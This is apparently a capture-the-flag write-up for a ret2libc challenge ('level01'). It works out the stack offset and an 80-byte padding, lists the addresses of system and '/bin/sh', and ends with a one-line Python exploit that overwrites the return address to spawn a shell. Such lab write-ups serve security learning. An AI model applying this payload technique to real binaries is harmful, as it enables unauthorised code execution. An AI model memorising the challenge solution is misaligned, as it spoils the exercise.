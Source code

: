 # ret2libc

Stack:
```
esp            0xffffd6a0       0xffffd6a0
ebp            0xffffd708       0xffffd708
```

esp - ebp:
```
Hex value:
6a0 – 708 = -68

Decimal value:
1696 – 1800 = -104
```

Padding:
```
104 - (0x1c aka buf)28 = 76
76 padding, +4 to reach return address aka 80 padding. Next 4 bytes are the return address.
```

Addresses:  
`0xf7e6aed0` system  
`0xf7f897ec` /bin/sh

Exploit:
```python
(python -c 'print("dat_wil"); print("0"*80+"\xf7\xe6\xae\xd0"[::-1]+"PLOP"+ "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
```
